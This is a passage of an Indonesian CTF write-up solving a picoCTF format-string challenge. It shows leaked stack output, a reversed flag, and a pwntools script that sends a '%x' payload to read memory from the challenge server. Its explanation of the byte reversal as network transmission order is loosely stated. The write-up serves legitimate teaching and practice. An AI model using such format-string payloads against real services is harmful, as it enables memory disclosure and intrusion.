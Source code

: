 ```
  r.recvuntil('What is your API token?\n')
c:\Users\Anugrah  Wiradhika F\Documents\CTF\pwn_test.py:16: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.send("%x" + "_%x"*100 + "\n")
        ;ó♦♦Ã÷ö­ÿÿÿÿ☺ ;Ñ`÷÷►÷ö­Ç     ;á♥    ;óP     ;ópocip{FTC0l_I4_t5m_ll0m_y_y3n841645ebÿ}÷úZø÷÷
                                                                                                   @ô^<☺÷à|é÷÷÷ö¥À÷ö ÿÜè÷ß÷ö♦
ÊÿÜô÷øÏ       ♦°÷ö ÷ö® ÿÝ(÷ù-P÷ö¸^<÷ö♦°ÿÝ♦       ;Ñ`ÿÝ¶ÿÝ♦é÷ö£üÿÝÜÿÝÔ☺☺     ;Ñ`ô^<ÿÝ@÷Úß¡÷ö ÷ö ÷Úß¡☺ÿÝÔÿÝÜÿÝd☺÷ö ÷ø×     
÷úP÷ö ´Ú^v.Þ↑f♦0÷ù-P÷øÙ♦°♦♦♦
[*] Closed connection to mercury.picoctf.net port 59616
```
Dari karakter yang tercetak terlihat sesuatu yang seperti flagnya yakni:
```
ocip{FTC0l_I4_t5m_ll0m_y_y3n841645ebÿ}
```
Namun tulisannya terbalik wkwkwk. Sebenarnya di titik ini flagnya udah ketemu, tapi lebih baik kita sekalian eksplorasi kenapa bisa begini. Kemungkinan sih karena transmisi via internet dilakukan via Big Endian, Tiap 4 byte yang terkirim, byte yang berada di address lebih besar akan dikirim terlebih dahulu. Akibatnya flagnya menjadi terbalik.

Untuk memperbaikinya, kita tinggal mereverse string tersebut tiap 4 byte.
```
import pwn

#connect ke server
r = pwn.connect('mercury.picoctf.net',59616)

#tunggu sampai prompt aksi kelar
r.recvuntil('2) View my portfolio\n')

#kirim input
r.send("1\n")

#tunggu sampai prompt API key muncul
r.recvuntil('What is your API token?\n')

#kirim payload
r.send("%x" + "_%x"*100 + "\n")

#skip line "Buying stonks with token:\n"
r.recvline()

#dapetin hasil exploit
response = r.recvline()
#decode it to string
decoded_response = response.decode()
#split menjadi chunk
chunks = decoded_response.split("_")
#convert each chunk, tapi harus convert lagi ke bytearray karena ada yg panjangnya gak 8
for chunk in chunks:
  if(chunk=='\n'):
    continue
  #pad hex string
  while(len(chunk)<8):
    chunk = '0' + chunk
  #konvert ke bytes array
  bytes = bytearray.fromhex(chunk)
  #print stringnya
  print("".join([chr(byte) for byte in reversed(bytes)]),end='')
```
Mari kita jalankan:
```
[x] Opening connection to mercury.picoctf.net on port 59616
```